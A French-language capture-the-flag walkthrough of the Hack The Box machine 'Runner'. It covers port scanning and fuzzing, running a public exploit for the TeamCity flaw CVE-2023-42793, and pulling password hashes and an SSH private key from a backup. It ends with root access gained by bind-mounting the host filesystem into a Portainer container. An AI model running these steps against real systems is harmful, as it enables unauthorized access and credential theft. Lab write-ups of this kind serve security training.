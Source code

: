   # Runner

	echo "10.10.11.13 runner.htb" >> /etc/hosts
    echo "10.10.11.13 teamcity.runner.htb" >> /etc/hosts
    echo "10.10.11.13 portainer-administration.runner.htb" >> /etc/hosts
   
	sudo masscan -p1-65535,U:1-65535 10.10.11.13 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.13 -oN nmap.txt
	
Scans classiques.

    PORT     STATE SERVICE     VERSION                                                                                  
    22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)                             
    80/tcp   open  http        nginx 1.18.0 (Ubuntu)                                                                    
    8000/tcp open  nagios-nsca Nagios NSCA

Fuzzing : 

	feroxbuster --silent -u http://runner.htb
    feroxbuster --silent -u http://runner.htb:8000
    ffuf -H "Host: FUZZ.runner.htb" -u http://runner.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 154

> http://runner.htb:8000/health <br>
> http://runner.htb:8000/version

On voit un **"seamless CI/CD Magic, powered by TeamCity!"** dans le code source. 

Un CVE assez récent semble exister. 
Voir : https://github.com/H454NSec/CVE-2023-42793 

Un sous-domaine **teamcity.runner.htb** semble bien exister comme décrit dans le CVE, bien qu'il ne soit pas trouvé par les wordlists classiques à première vue.

Utilisation du CVE :

    python exp.py -u http://teamcity.runner.htb

Se connecter avec le compte généré.

Dans la partie "Backup" on voit un fichier téléchargeable : 

> 	/data/teamcity_server/datadir/backup/TeamCity_Backup.zip 

Dans cette sauvegarde, dans le dossier **/database_dump/users**, on trouve plusieurs hashes BCRYPT dont un cassable en quelques minutes, celui de Matthew.

On trouve aussi une clé SSH pour John (son nom se trouve dans le panneau de configuration TeamCity avec celui de Matthew) dans le dossier **/config/projects/AllProjects/pluginData/ssh_keys**

    chmod 600 id_rsa
    ssh john@runner.htb -i id_rsa
    cat user.txt

## Élévation de privilèges

    cat /etc/nginx/sites-enabled/portainer 

> server_name portainer-administration.runner.htb

On peut se connecter sur ce portail avec Matthew et son mot de passe obtenu plus haut. On a le droit de créer de nouveaux containers. On peut donc simplement monter un volume relié aux dossiers que l'on veut lire.

1) Créer un volume avec les options suivantes : 

- device : '/'
- o : 'bind'
- type : 'none'

2) Créer un container avec ce volume attaché à un chemin /mnt/root par exemple, et bien prendre l'image "ubuntu:latest"

3) Démarrer la console du container 

4) Afficher le flag dans le dossier choisi plus haut : 

      cat /mnt/root/root/root.txt
